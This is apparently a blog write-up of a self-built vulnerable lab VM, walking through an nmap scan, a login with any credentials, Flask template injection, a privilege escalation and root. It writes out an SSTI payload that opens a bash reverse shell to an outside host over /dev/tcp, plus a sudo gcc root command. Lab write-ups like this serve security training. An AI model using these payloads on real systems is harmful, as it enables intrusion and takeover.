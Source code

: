 ```yaml
---

title: Writeup for Twenty22

date: 2022-01-20 07:39:05 +0200

categories: [Build vulnerable VMs,Writeup for Twenty22]

tags: vagrant VMs FirstVM writeup

---
```


### Nmap

```js
PS E:\> nmap -sC -sV 10.10.10.101
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 07:03 India Standard Time
Nmap scan report for 10.10.10.101
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9f:5a:7c:82:c0:2e:e1:c9:57:b5:7d:66:04:e9:31:0e (RSA)
|   256 02:90:6e:33:7a:b2:53:83:a6:0f:2f:16:93:94:a1:96 (ECDSA)
|_  256 cf:8b:32:62:3d:22:79:8b:2b:f0:9f:f0:94:87:24:dd (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Twenty22 | Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:C3:C3:3D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.42 seconds
```
- There're two ports opened, 22 has ssh and 80 has an apache webserver
- Let's visit the web page

### Website
![login-page](https://i.imgur.com/sPx1JbN.png)
- Here's a login page, but we don't have any credentials
- Let's try with `admin:admin`

![welcome-admin](https://i.imgur.com/4QPXx0u.png)
- It worked, let's try with other credentials, for example `test:test` 

![test-test](https://i.imgur.com/GaMTlpo.png)
- I think there's no login check, it simply logs us in with any credentials
- And our username is reflecting here `[ Welcome test, It's late the CTF has ended ]`
- Let's enum other pages

### CTF site
- This is a mini CTF site
- Sadly the CTF has ended
- There are two web challenges, which still active
- But it's not hosted inside this machine, Its publicly hosted so we can't make use of that challenges
- There's a scoreboard and users pages
- This page uses a cookie `user:test`
- Our username will be stored there
- Nothing interesting than our reflected input and cookies

![static](https://i.imgur.com/tDGnVnP.png)
- By viewing the source there's a folder name `static`
- So let's try for **SSTI** 

#### SSTI
- I used ![7*7](https://i.imgur.com/b8rE1NY.png) as my username

![ssti](https://i.imgur.com/vDKsJQA.png)

- It works :D
- So this is a flask app has SSTI
- Let's try to get a reverse shell

![rev-payload](https://i.imgur.com/oO8kGam.png)
<!--{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.85.203/1337 0>&1"').read()}} -->

![shell as www-data](https://i.imgur.com/2t8obfL.png)
- Cool we got shell :D

### User part
![credentials-pwn](https://i.imgur.com/elLKb0X.png)
- We can't see user.txt but we got credetials for pwn user
- There's a todo.txt in `/home/pwn` and a password is there
- Let's try this to login as `pwn`

![user.txt](https://i.imgur.com/NkC2IZ6.png)
- Nice we got user
- Let's upgrade our shell

### Root part
![sudo -l](https://i.imgur.com/ce66c7y.png)
- By running `sudo -l` we can see that `pwn` user can run `/usr/bin/gcc` with sudo

![gtfobins](https://i.imgur.com/SkM5TJg.png)
- Quickly I searched in gtfobins and it has gcc

![sudo gcc](https://i.imgur.com/PkdeFP1.png)
- Let's run this command 

`sudo gcc -wrapper /bin/sh,-s .`

![rooted](https://i.imgur.com/eFP7fHl.png)
- Cool we rooted :D
- That's all guys, I hope you liked this box <3 
- See my previous post [How to create vulnerable VM](https://jopraveen.me/posts/create-vulnerable-vm/)
